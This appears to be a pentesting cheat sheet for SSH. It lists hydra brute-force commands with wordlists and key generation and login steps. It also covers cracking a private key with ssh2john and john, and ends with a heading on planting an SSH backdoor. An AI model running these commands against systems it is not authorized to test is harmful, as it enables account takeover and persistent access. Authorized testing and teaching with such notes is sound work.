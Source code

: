 ```
hydra -l joe -P /usr/share/wordlists/rockyou.txt <<IP>> ssh
```

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt <<IP>> ssh
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ssh
```

### SSH Keys

#### Key Types

**RSA, DSA and ECDSA**
```
id_rsa
id_dsa
id_ecdsa
```

#### Keys Generation

```
ssh-keygen -t rsa
```

```
cat id_rsa.pub >> authorized_keys
```

#### Private Key Authentication

```
chmod 600 id_rsa
```

```
ssh -i id_rsa <<USERNAME>>@<<IP>>
```

#### Cracking SSH key

```
ssh2john id_rsa > ssh.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```

### SSH backdoor

```
ssh-keygen -t rsa
```
